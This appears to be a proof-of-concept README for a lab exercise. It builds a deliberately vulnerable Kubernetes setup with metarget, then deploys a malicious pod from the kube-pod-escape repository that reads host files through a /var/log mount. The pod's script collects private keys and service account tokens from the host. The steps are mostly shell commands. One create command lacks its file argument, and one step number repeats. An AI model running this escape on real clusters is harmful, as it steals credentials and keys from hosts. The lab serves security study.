 ## Proof of Concept

To perform the Proof of Concept, please follow the below steps:

1. Basic environment setup for Docker and K8+. Execute the following commands inside the metarget folder.<br/>
`./metarget gadget install docker --version 18.03.1` <br/>
`./metarget gadget install k8s --version 1.16.5 --domestic`
2. Prepare the vulnerable environment using the following command. <br/>
`./metarget cnv install mount-var-log`

3. Clone the repository which contains the configuration file, `escraper.yml`, for malicious Pod. <br/>
`git clone https://github.com/danielsagi/kube-pod-escape.git`

3. Prepare the malicious pod using the following command
`kubectl create -f `
4. Exec into the pod. The pod contains built-in exploit code which will read any files from the host.<br/>
`kubectl exec -it mount-var-log -n metarget bash`
5. Execute the `find_sensitive_files.py` script which downloads private key files and kubernetes service account tokens from the host.<br/>
`python find_sensitive_files.py`
6. To verify the files are downloaded in the pod, check the files in the following directories.<br/>
`cd /root/exploit/host_files/tokens`<br/>
`cd /root/exploit/host_files/private_keys`


